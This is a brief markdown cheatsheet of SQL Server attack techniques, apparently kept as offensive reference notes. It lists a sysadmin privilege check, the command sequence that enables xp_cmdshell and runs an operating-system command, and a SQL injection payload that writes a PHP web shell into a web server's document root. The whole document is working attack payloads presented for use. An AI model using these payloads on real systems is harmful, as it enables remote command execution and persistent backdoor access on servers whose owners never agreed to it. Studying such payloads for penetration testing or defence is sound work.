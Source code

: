 # SQL Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

#### Determine if Current User is Sysadmin

`select is_srvrolemember('sysadmin')`

<!--
##################################################################
##################################################################
-->

#### Spawn Command Shell once Sysadmin

`EXEC sp_configure 'Show Advanced Options', 1;`
'reconfigure;'
`sp_configure;`
`EXEC sp_configure 'xp_cmdshell', 1`
`reconfigure;`
`xp_cmdshell "whoami"`

<!--
##################################################################
##################################################################
-->

#### Inject Web Shell

`' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php' -- -' `
